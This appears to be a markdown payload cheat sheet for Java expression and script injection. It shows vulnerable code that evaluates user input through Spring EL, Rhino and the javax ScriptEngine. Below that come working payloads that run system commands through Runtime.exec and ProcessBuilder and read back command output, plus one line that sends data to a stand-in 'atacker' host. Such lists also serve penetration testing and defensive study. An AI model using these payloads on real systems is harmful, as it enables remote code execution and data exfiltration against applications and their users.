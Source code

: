 # Spring EL

```
ExpressionParser parser = new SpelExpressionParser();
StandardEvaluationContext testContext = new StandardEvaluationContext(TEST_PERSON);
Expression exp = parser.parseExpression(user_code);
String valueExtracted = exp.getValue(testContext, String.class);
```
### Runtime

* T(Runtime).getRuntime().exec('open -a Calculator')
* T(java.lang.Runtime).getRuntime().exec('open -a Calculator')

### Process Builder

* new ProcessBuilder({'/bin/bash','-c','open -a Calculator'}).start()
* new java.lang.ProcessBuilder({'/bin/bash','-c','open -a Calculator'}).start()

### Get Output

* (new java.util.Scanner((T(Runtime).getRuntime().exec("ls /").getInputStream()),"UTF-8")).useDelimiter("\\A").next()
* (new java.util.Scanner((T(java.lang.Runtime).getRuntime().exec("ls /").getInputStream()),"UTF-8")).useDelimiter("\\A").next()
* (new java.util.Scanner((new ProcessBuilder({'/bin/bash','-c','ls /'}).start().getInputStream()),"UTF-8")).useDelimiter("\\A").next()

### Exfil

* new java.net.URL("http://atacker/?ex="+DATA).openConnection().getInputStream().readLine()

# Rino Scripting Engine

```
import org.mozilla.javascript.*;
Context cx = Context.enter();
cx.evaluateString(scope, user_code, "", 1, null);
```

# ScriptEngine

```
import javax.script.ScriptEngineManager;
import javax.script.ScriptEngine;
ScriptEngineManager scriptEngineManager = new ScriptEngineManager();
ScriptEngine scriptEngine = scriptEngineManager.getEngineByExtension("js");
Object result = scriptEngine.eval(user_code);
```

### Payload

* new java.lang.ProcessBuilder["(java.lang.String[])"](["calc.exe"]).start()
